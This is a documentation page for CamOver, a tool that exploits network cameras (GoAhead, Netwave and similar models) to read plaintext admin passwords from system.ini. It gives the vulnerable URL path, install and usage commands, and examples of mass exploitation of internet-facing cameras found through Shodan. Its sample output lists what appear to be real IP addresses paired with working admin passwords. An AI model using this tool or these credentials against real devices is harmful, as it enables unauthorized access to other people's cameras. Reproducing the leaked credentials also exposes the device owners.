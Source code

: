 ```yaml
---
title : "CamOver"
# pre : ' '
description : "CamOver is a camera exploitation tool that allows to disclosure network camera admin password."
date : 2021-07-06T11:40:36+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CamOver

Is a camera exploitation tool that allows to disclosure network camera admin password.

**Features:**

* Exploits vulnerabilities in most popular camera models such as CCTV, GoAhead and Netwave.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

Tool effectively looks for `http://{address}/system.ini?loginuse&loginpas` and reads the `username:password` plaintext from the `system.ini` file.

### Installation

```plain
pip3 install git+https://github.com/EntySec/CamOver
```

### Usage

```plain
camover [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]
```

### Flags

```plain
CamOver is a camera exploitation tool that allows to disclosure network camera admin password.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

### Examples

#### Exploiting single camera

Let's hack my camera just for fun.

```plain
camover -a 192.168.99.100
```

#### Exploiting cameras from Internet

Let's try to use Shodan search engine to exploit cameras over Internet, we will use it with `-t` for fast exploitation.

```plain
camover -t --shodan [API-KEY]
```

```plain
$ camover -t --shodan [REDACTED]
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[+] (84.99.151.248:81) - admin:SFR_2E98
[+] (37.116.187.4:81) - admin:Bebbo000
[+] (42.118.152.148:80) - admin:admin
[+] (37.108.23.82:99) - admin:Misiek22!
[+] (59.29.194.241:81) - admin:core7772
[+] (212.127.221.137:80) - admin:quercus2403
[+] (118.71.30.128:80) - admin:admin
[+] (201.188.20.77:80) - admin:216828103
[+] (86.41.122.211:88) - admin:IPCAM
[+] (187.155.117.123:80) - admin:123456
[+] (151.63.22.212:81) - admin:242893
[+] (200.126.178.171:81) - admin:888888
```

#### Exploiting cameras from input file

Let's try to use opened database of cameras with -t for fast exploitation.

```plain
camover -t -i cameras.txt -o passwords.txt
```

NOTE: It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

### URL list

* [Github.com - CamOver](https://github.com/EntySec/CamOver)
